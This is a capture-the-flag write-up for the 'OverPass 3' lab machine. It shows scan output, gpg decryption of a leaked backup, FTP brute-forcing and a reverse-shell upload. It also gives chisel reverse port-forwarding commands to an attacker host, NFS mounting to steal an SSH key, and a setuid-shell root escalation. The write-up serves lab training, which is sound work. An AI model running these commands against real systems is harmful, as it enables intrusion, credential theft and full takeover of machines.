# OverPass 3 Writeup

<p align="center">
  
</p>


### __First Stage : Enumeration__

So lets start with nmap scan.

```
# Nmap 7.91 scan initiated Mon Jan 11 10:50:45 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.122.209
Nmap scan report for 10.10.122.209
Host is up, received syn-ack (0.15s latency).
Scanned at 2021-01-11 10:50:45 IST for 187s
Not shown: 65532 filtered ports
Reason: 65364 no-responses and 168 host-unreaches
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDfSHQR3OtIeAUFx18phN/nfAIQ2uGHuJs0epoqF184E4Xr8fkjSFJHdA6GsVyGUjdlPqylT8Lpa+UhSSegb8sm1So8Nz42bthsftsOxMQVb/tpQzMUfjcxQOiyVmgxfEqs2Zzdv6GtxwgZWhKHt7T369ejxnVrZhn0m6jzQNfRhVoQe/jC20RKvBf8l8s6/SusbZR5SFfsg71KyrSKOXOxs12GhXkdbP32K3sXVEpWgfCfmIZAc2ZxNtL5uPCM4AOfjIFJHl1z9EX04ZjQ1rMzzOh9pD/b+W2mXt2nQGzRPnc8LyGDE0hFtw4+lBCoiH8zIt14S7dwbFFV1mWxbtZXVf7JhPiZDM2vBfqyowsDZ5oc2qyR+JEU4pqeVhRygs41isej/el19G8+ehz4W07KR97eM2omB25JehO7E4tpX1l8Imjs1XjqhhVuGE2tru/p62SRQOKzRZ19MCIFPxleSLorrHq/uuKdvd8j6rm0A9BrCsiB6gmPfal6Kr55vlU=
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAPAji9Nkb2U9TeP47Pz7BEa943WGOeu5XrRrTV0+CS0eGfNQyZkK6ZICNdeov65c2NWFPFsZTFjO8Sg+e2n/lM=
|   256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM/U6Td7C0nC8tiqS0Eejd+gQ3rjSyQW2DvcN0eoMFLS
80/tcp open  http    syn-ack Apache httpd 2.4.37 ((centos))
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 11 10:53:52 2021 -- 1 IP address (1 host up) scanned in 187.33 seconds
```


So ports that are open are:
* 80
* 22
* 21

So let's visit port 80.





Let's fire up gobuster.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.122.209/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/01/11 10:52:44 Starting gobuster
===============================================================
/index.html (Status: 200)
/backups (Status: 301)
```

## __Second Stage : Initial acccess as www-data__
So let's check port **21 (FTP)**

Unfortunately port 21 was did not allow anonymous login :( .



Since we found an interesting directory called **backups** we visit that .

We download it and uzip it and get two files.

* CustomerDetails.xlsx.gpg
* priv.key

So we have a gpg file and a private key , let's decrypt it.

```shell
gpg --import priv.key
gpg --output CustomerDetails.xlsx --no-tty CustomerDetails.xlsx.gpg
```




I seriously doubted that it is ssh credentials  hence I used hydra to brute ftp.




Hence these are ftp credentials.




So this is the web page directory.


So we can upload a reverse shell through ftp and get a shell as www-data.








After searching for sometime we get the flag for apache.




## __Third Stage : From Paradox to James__


So I saw there were two users **james** and **paradox**.

So I used the password for paradox we previously had and surprisingly it worked !.


But unfortunately paradox didnt have any sudo permissions.


After running linpeas script we found that .




Since the nfs port is closed we have to port forward 2049 to our machine.

On our attack machine
> ./chisel -p 10000 --reverse

On victim machine

> ./chisel vpnip:10000 R:2049:127.0.0.1:2049






Now we can mount the share using.

> sudo mount -t nfs4 -o proto=tcp,port=2049 127.0.0.1:/ /mnt/overpass -vv 





Now we can get id_rsa from **.ssh/** folder.


and we can ssh in as james .


## __Fourth Stage : James to root.


So now we can privesc to root by doing the following steps.

```bash
In our local machine :

# go to the mounted folder in your attacking machine

sudo cp /bin/sh .
sudo chmod +s sh

# go to the mounted folder (/home/james) in the victim machine

./sh -p
```


